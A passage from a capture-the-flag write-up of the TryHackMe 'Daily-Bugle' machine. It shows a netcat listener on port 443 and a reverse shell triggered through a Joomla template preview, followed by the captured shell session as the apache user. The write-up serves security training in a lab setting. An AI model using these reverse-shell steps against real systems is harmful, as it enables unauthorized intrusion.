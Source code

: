 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Daily-Bugle/images/a8.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Trigger the reverse shell via clicking the "Template Preview" button:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Daily-Bugle/images/a9.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.47.144] 48736
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:16:38 up 28 min,  0 users,  load average: 0.07, 0.08, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
bash: no job control in this shell
bash-4.2$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
```